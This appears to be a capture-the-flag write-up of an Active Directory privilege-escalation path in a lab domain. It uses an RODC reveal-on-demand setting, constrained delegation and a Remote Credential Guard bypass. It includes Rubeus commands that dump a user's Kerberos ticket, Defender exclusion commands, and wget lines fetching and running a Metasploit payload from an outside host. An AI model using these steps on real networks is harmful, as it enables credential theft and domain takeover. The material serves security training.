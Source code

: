 #### Attack Path

We have identified a few interesting accounts and attributes that we can abuse to escalate our privileges in the domain. We can summarize the attack path as follows:

1. Silvia Galli has a logon session on the `FACTWS` computer. Remote Credential Guard is enabled, so we need to find a way to bypass this.
2. Silvia Galli is a member of the `ValdoroManagers` group, which can manage (local administrator) the `FACTRODC` computer.
3. The `FACTRODC` computer is a read-only domain controller (RODC) and has the `msDS-RevealOnDemandGroup` attribute set to `ValdoroComputers` and `ValdoroUsers`, and can thus compromise the credentials of these accounts.
4. The `TimeSheetSvc` user account is a member of the `ValdoroUsers` group and has the `msds-allowedtodelegateto` attribute set to `CIFS/mgmtdc` and `CIFS/mgmtdc.factories.mammamia.local`, and can therefore perform a Constrained Delegation Attack to the `mgmtdc` and `mgmtdc.factories.mammamia.local` services.
5. The `factories.mammamia.local` is a child domain of the `mammamia.local` forest, and compromising `factories.mammamia.local` can lead to compromising the entire forest (more on this later).

### Bypassing Remote Credential Guard

Remote Credential Guard is a feature in Windows that attempts to protect the user's credentials from being stolen by a compromised remote host. A simplified explanation: The user's credentials are not sent to the remote host, but instead, all authentication requests are sent back to the user's machine. This means that the user's "primary" credentials are never exposed to the remote host.

However, we did see that Silvia Galli has a logon session on the `FACTWS` computer, and we noticed a TGT for this account in the `triage` output. Let's try to dump and steal this TGT using Rubeus:

```powershell
C:\Windows\Temp\attacker>.\rubeus.exe triage /service:krbtgt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


Action: Triage Kerberos Tickets (All Users)

[*] Target service  : krbtgt
[*] Current LUID    : 0x51854e

 --------------------------------------------------------------------------------------------------------------- 
 | LUID     | UserName                                | Service                         | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
 | 0x3e4    | factws$ @ FACTORIES.MAMMAMIA.LOCAL      | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/18/2024 7:53:08 AM |
 | 0x6087c  | silvia.galli @ FACTORIES.MAMMAMIA.LOCAL | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/18/2024 7:53:37 AM |
 | 0x3e7    | factws$ @ FACTORIES.MAMMAMIA.LOCAL      | krbtgt/FACTORIES.MAMMAMIA.LOCAL | 5/18/2024 7:53:08 AM |
 --------------------------------------------------------------------------------------------------------------- 

C:\Windows\Temp\attacker>.\rubeus.exe dump /luid:0x6087c /service:krbtgt /nowrap

   ______        _                      
```

[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      
